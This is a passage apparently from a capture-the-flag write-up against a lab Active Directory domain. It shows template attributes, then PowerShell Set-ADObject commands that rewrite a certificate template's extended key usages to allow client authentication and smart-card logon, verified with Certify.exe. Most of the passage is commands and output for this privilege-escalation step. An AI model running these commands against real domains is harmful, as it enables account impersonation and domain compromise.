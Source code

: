 ```
usncreated             : 4133                             
name                   : Certificate Templates                                                                       
whenchanged            : 2/25/2021 9:08:28 PM             
objectclass            : {top, container}                 
showinadvancedviewonly : True                                                                                        
usnchanged             : 4133                             
dscorepropagationdata  : {5/24/2021 5:27:58 PM, 1/1/1601 12:00:02 AM}                                                
cn                     : Certificate Templates            
distinguishedname      : CN=Certificate Templates,CN=Public Key                                                      
                         Services,CN=Services,CN=Configuration,DC=windcorp,DC=htb                                    
whencreated            : 2/25/2021 9:08:28 PM             
instancetype           : 4                                
objectguid             : 3d8a891b-1256-4197-9aae-857c35e74659                                                        
objectcategory         : CN=Container,CN=Schema,CN=Configuration,DC=windcorp,DC=htb                                  
                                                                                                                     
mspki-enrollment-flag                : 8                  
mspki-certificate-name-flag          : 1                                                                             
pkidefaultcsps                       : {2,Microsoft DH SChannel Cryptographic Provider, 1,Microsoft RSA SChannel 
                                       Cryptographic Provider}                                                       
distinguishedname                    : CN=Web,CN=Certificate Templates,CN=Public Key                                 
                                       Services,CN=Services,CN=Configuration,DC=windcorp,DC=htb                      
pkidefaultkeyspec                    : 1                  
objectclass                          : {top, pKICertificateTemplate}                                                 
displayname                          : Web                
name                                 : Web                
mspki-certificate-application-policy : 1.3.6.1.5.5.7.3.1                                                             
pkiextendedkeyusage                  : 1.3.6.1.5.5.7.3.1 
```
So, let us change the properties from `1.3.6.1.5.5.7.3.1` to `"1.3.6.1.5.5.7.3.2", "1.3.6.1.4.1.311.20.2.2", "1.3.6.1.5.2.3.4", "2.5.29.37.0"`
```
$rights=@("1.3.6.1.5.5.7.3.2", "1.3.6.1.4.1.311.20.2.2", "1.3.6.1.5.2.3.4")
Set-ADObject "CN=Web,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=windcorp,DC=htb" -Add @{pKIExtendedKeyUsage=$rights;"msPKI-Certificate-Application-Policy"=$rights}
# OR Replace
Set-ADObject -Identity "CN=Web,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=windcorp,DC=htb" -Replace @{"pKIExtendedKeyUsage"=$rights;"msPKI-Certificate-Application-Policy"=$rights}

```
Check
```
.\Certify.exe find /vulnerable /currentuser
...CLIP...
    pkiextendedkeyusage                   : Client Authentication, Server Authentication, Smart Card Logon
    mspki-certificate-application-policy  : Client Authentication, Server Authentication, Smart Card Logon
...CLIP...
```